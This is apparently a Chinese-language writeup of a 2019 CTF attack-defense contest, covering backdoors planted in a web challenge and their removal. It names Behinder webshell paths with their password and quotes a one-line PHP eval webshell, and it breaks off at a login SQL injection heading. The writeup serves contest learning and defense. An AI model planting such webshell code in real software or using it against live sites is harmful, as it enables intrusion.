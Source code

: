 ```yaml
---
title: 北极星杯AWD Writeup
categories: 网络安全
tags:
  - Writeup
abbrlink: 16997
date: 2019-10-04 15:50:57
---
```


(本文首发于星盟安全公众号,链接:[北极星杯AWD-Web-Writeup](https://weixin.sogou.com/link?url=dn9a_-gY295K0Rci_xozVXfdMkSQTLW6cwJThYulHEtVjXrGTiVgSzeo9_evQk7_5VddawZp5ST5oaiKpHxlmlqXa8Fplpd9X-AYT8efJLqd3HjPvm5Ogi--XpCmp3p1FHUhJwkRV7i9aeBi2KpxK2c3LarU8cDZSknbf5kXQUJ8A8_jCv3vvByWQLSekv36n-__jjNOQ5XtP7ax8jUAmApx0QokVAEdNH4IggvvmKFftm6lykiDTsEdHSGWGQZgpm-K3rnUF_U89kyxDwoXvg..&type=2&query=%E5%8C%97%E6%9E%81%E6%98%9F%E6%9D%AF%20awd&token=80E801B32D15389AEAEC483650AA175EEA3E0B325E8F35FE&k=29&h=V))

# 前言

祝祖国70周年生日快乐,也祝星盟一周年生日快乐.感谢各位师傅在国庆假期抽出时间参加这次比赛,也感谢负责组织比赛的师傅忙前忙后.

**大哥大嫂国庆好!!!**



先贴上web题目源码:

https://pan.baidu.com/s/1O-0DDM5CPCh3DtUdAdN3CQ

*因为是先上的waf再做的备份,所以看到waf相关的东西师傅们可以无视...*

## web1

### 冰蝎后门

在`/pma`路径下有个`binxie2.0.1.php`与`\assets\images\yjh.php`,密码是pass.

但是因为冰蝎马有个交换aes秘钥,并且流量都通过aes加密,之前没写过冰蝎的批量脚本.并且木马设置的太明显,大部分队伍很快就能发现.因此,除了最开始手动提交了几个,这个后门我们并没有用上.

实际上,到了比赛中后期,还有四五支队伍没有清理这个后门.



修复方案:

删除后门文件

### eval后门

位于`\assets\scripts\pass.php`

`@eval($_POST['pass']);`

太明显了,直接批量脚本跑就完事了.

修复方案: 删除后门文件

### 登录处sql注入
